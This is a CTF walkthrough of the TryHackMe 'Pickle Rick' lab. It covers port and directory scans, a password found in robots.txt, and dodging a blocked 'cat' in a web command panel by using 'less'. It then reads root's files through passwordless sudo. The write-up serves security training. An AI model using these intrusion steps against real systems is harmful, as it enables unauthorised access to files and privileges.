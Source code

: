 # Pickle Rick

---
Date: 2021-12-20  
Author: Michael Baumberger  
[TryHackMe link](https://tryhackme.com/room/picklerick)
---

# Task 1 | Pickle Rick

First we do a nmap scan:

```
nmap -sC -sV -p- 10.10.26.43
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-20 20:18 CET
Nmap scan report for 10.10.26.43
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 2f:c1:a6:22:78:e6:f4:9e:8c:c4:7e:ff:6a:24:02:a9 (RSA)
|   256 d2:e1:3a:4e:e4:f0:29:50:f1:7c:a1:15:b6:78:ab:2e (ECDSA)
|_  256 ad:b2:a1:d9:bf:25:a6:82:67:39:51:34:ca:c3:48:a7 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

First we check out the website running on port 80 and start a gobuster scan:

```
gobuster dir --url http://10.10.26.43/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.26.43/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/20 20:29:17 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 311] [--> http://10.10.26.43/assets/]

===============================================================
2021/12/20 20:43:09 Finished
===============================================================
```

And we also start a dirbuster scan:

```
dirb http://10.10.26.43

-----------------
DIRB v2.22
By The Dark Raver
-----------------

START_TIME: Mon Dec 20 20:48:16 2021
URL_BASE: http://10.10.26.43/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.10.26.43/ ----
==> DIRECTORY: http://10.10.26.43/assets/
[+] http://10.10.26.43/index.html (CODE:200|SIZE:1062)
[+] http://10.10.26.43/robots.txt (CODE:200|SIZE:17)
[+] http://10.10.26.43/server-status (CODE:403|SIZE:299)

---- Entering directory: http://10.10.26.43/assets/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)

-----------------
END_TIME: Mon Dec 20 20:52:40 2021
DOWNLOADED: 4612 - FOUND: 3
```

And also a nikto scan:

```
nikto -h 10.10.26.43
[-] Nikto v2.1.6
---------------------------------------------------------------------------
[+] Target IP:          10.10.26.43
[+] Target Hostname:    10.10.26.43
[+] Target Port:        80
[+] Start Time:         2021-12-20 20:55:49 (GMT1)
---------------------------------------------------------------------------
[+] Server: Apache/2.4.18 (Ubuntu)
[+] The anti-clickjacking X-Frame-Options header is not present.
[+] The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
[+] The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
[+] No CGI Directories found (use '-C all' to force check all possible dirs)
[+] Server may leak inodes via ETags, header found with file /, inode: 426, size: 5818ccf125686, mtime: gzip
[+] Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
[+] Allowed HTTP Methods: OPTIONS, GET, HEAD, POST
[+] Cookie PHPSESSID created without the httponly flag
[+] OSVDB-3233: /icons/README: Apache default file found.
[+] /login.php: Admin login page/section found.
[+] 7890 requests: 0 error(s) and 9 item(s) reported on remote host
[+] End Time:           2021-12-20 21:04:21 (GMT1) (512 seconds)
---------------------------------------------------------------------------
```

During the gobuster and dirbuster scan we can look at the web pages source code und see the note with the *Username 'R1ckRul3s'*.

We see the result */assets* in the gobuster scan so we look at this and see those files:

````
bootstrap.min.css	2019-02-10 16:37	119K	 
bootstrap.min.js	2019-02-10 16:37	37K	 
fail.gif	        2019-02-10 16:37	49K	 
jquery.min.js	    2019-02-10 16:37	85K	 
picklerick.gif	    2019-02-10 16:37	222K	 
portal.jpg	        2019-02-10 16:37	50K	 
rickandmorty.jpeg	2019-02-10 16:37	488K	 
````

We can download them but I dont think that they have anything special on it.
Now  the dirbuster scan is finished and we can look at the robots.txt:

````
Wubbalubbadubdub
````

Why?????? 
Ok I don't thing that helps us, so we check out the *'/login.php' page* from nikto and we see a login form.

We already found the username 'R1ckRul3s' in the 'index.html' code.
Now we can try some passwords and because of the suspicious content of the 'robots.txt' I tried it as password and it worked!!
we got redirected to the *page 'portal.php'*.
On the first look and test it looks like we have code execution or something. 
Lets try 'ls' and we see numerus of files and also the *file 'Sup3rS3cretPickl3Ingred.txt'* which we were searching for.

If we try to 'cat' the file 'Sup3rS3cretPickl3Ingred.txt' we get the message:

````
Command disabled to make it hard for future PICKLEEEE RICCCKKKK.
````

Now we know there is some validation.
But it looks like the file is in the same directory as the webserver is serving out login.php and index.html, so we can try to call the file like that:

````
http://10.10.26.43/Sup3rS3cretPickl3Ingred.txt
````

Yes we can **read the file like this and get our first flag**.

We know that we have command execution so lets try to trick the validation. 
As example we can list the whole '/' directory with 'ls -la /'.
We can also see all home directories with 'ls -la /home' and the home folder of rick with 'ls -la /home/rick' and there we find the second ingredient.

Before we only tried to cat the file but we can try another tool and see if it is also blocked:

````shell
less /home/rick/'second ingredients'
````

It worked and we get **the second flag**.

We can think that the last flag will be in the roots home so '/root' but if we try to read that directory with 'ls -la /root' we dont get back anything.
With the command 'whoami' we see that we are only 'www-data' and this user normaly doesn't have permission to read the root's home folder.
We can *check what permissions we have with 'sudo -l'*:

````
Matching Defaults entries for www-data on ip-10-10-26-43.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-26-43.eu-west-1.compute.internal:
(ALL) NOPASSWD: ALL
````

As we see we can execute any command without supplying a password. So we can execute 'sudo ls -la /root' and we get a result this time:

````
total 28
drwx------  4 root root 4096 Feb 10  2019 .
drwxr-xr-x 23 root root 4096 Dec 20 19:15 ..
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
drwxr-xr-x  3 root root 4096 Feb 10  2019 snap
````

As we can see there is most likely our 3 flag in the file '3rd.txt' so lets read it:

````shell
sudo less /root/3rd.txt
````

And we get our **3rd flag**!